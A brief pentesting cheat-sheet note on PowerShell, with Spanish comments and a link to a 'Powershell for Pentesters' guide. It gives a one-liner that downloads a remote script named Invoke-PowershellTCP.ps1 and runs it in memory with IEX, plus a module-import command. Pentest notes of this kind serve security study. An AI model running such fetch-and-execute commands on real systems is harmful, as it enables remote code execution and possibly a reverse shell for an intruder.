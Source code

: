 # Powershell

Tags: #Windows #Powershell 

* [Powershell for Pentesters](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)

```powershell 
❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Scripts/main/Invoke-PowershellTCP.ps1')" # Ejecutar un comando 
```

```powershell
❯ Import-Module .\Script.ps1       # Importamos un modulo y asi podemos utilizar los submodulos 
```